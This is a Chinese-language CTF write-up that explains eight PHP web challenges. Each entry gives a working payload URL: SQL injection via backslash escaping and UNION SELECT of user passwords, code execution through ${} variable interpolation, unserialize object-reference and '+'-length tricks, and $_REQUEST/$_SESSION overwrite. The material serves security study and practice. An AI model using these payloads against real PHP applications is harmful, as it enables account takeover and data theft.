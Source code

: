 ## Writeup

>PHP is the best language in the world! - Mark Twain

### challenge1:
htmlentities()转义了单引号和双引号，但是忽略了反斜线，所以可以用`\`将原SQL语句中的第二个单引号转义，成功逃逸引号。

payload:`http://foobar/challenge1.php?username=\&password=%20or%201=1%20limit%201%23`

### challenge2:
PHP中花括号的用法：字符串`${foobar}`中的foobar会被当作变量来处理，详情参见: http://php.net/manual/en/language.variables.variable.php

payload:`http://foobar/challenge2.php?str=${${phpinfo()}}`

### challenge3:
利用PHP和MySQL中浮点数精度不同的特性来做，在PHP中`1.0000000000001 != 1`而在MySQL中`1.0000000000001 == 1`

payload: `http://foobar/challenge3.phpid=1.0000000000001`

### challenge4:
foreach那一段代码避免了变量覆盖的发生，却也可能导致释放原有变量，通过通过传参$_CONFIG=anything来释放掉$_CONFIG变量，从而绕过过滤，剩下的就是SQL注入了。

payload: `http://foobar/challenge4.php?kw='%20and%200%20union%20select%20name,pass%20from%20users%20where%20id=1%23&_CONFIG=aaa`

### challenge5:
PHP弱类型导致的BUG，当`$var`是一个字符串/数组的时候，访问`$var["any string"]`跟访问`$var[intval("any string")]`效果是一样的，所以就有如下思路:
1. 访问`http://foobar/challenge5.php?userInfo=a:2:{s:2:"id";s:1:"8";s:4:"pass";s:12:"MAYBECHANGED";}&newPass=8`将账号jimbo18714的密码修改为8
2. 访问`http://foobar/challenge5.php?userInfo=s:1:"8";&newPass=1`将ID为1的账号密码修改为1

开始对2很迷,不知道为啥修改了id=1的用户的密码,而不是修改了id=8的,最后@yichin大牛指点之后才明白:

```php
if($oldPass == $userInfo['pass']){
    $userInfo['pass'] = $newPass; //这里修改了$userInfo,改成了 1  
    $query = 'UPDATE users SET pass = \''.mres($newPass).'\' WHERE id = \''.mres($userInfo['id']).'\';';
    mysql_query($query);
    echo 'Password Changed.';
}
``` 

### challenge6:
PHP中引用的用法，将`$o->enter`设置为`$o->secret`的引用，这样更改`$o->secret`时`$o->enter`也会随之更改。p.s.乌云知识库上面那个思路完全是在扯淡。

payload:`http://foobar/challenge6.php?pass=O:8:"just4fun":2:{s:5:"enter";N;s:6:"secret";R:2;}`

### challenge7:
`$_REQUEST`变量中如果碰到`$_GET`和`$_POST`重名的字段，`$_POST`的该字段会覆盖掉`$_GET`的该字段，可以借此特性绕过对`$_REQUEST`的数组判断，进而覆盖`$_SESSION`变量

payload: `http://foobar/challenge7.php?_SESSION[logged]=1 (POST: _SESSION=1)`

### challenge8:
PHP反序列化的一个小特性，反序列化时会忽略掉用来表示长度的数字前面的`+`，大概是把`+`当作正号来处理了吧。详情参考:http://www.2cto.com/kf/201309/246310.html

payload:`http://foobar/challenge8.php?data=O:%2B8:"just4fun":1:{s:8:"filename";s:9:"sbztz.php";}`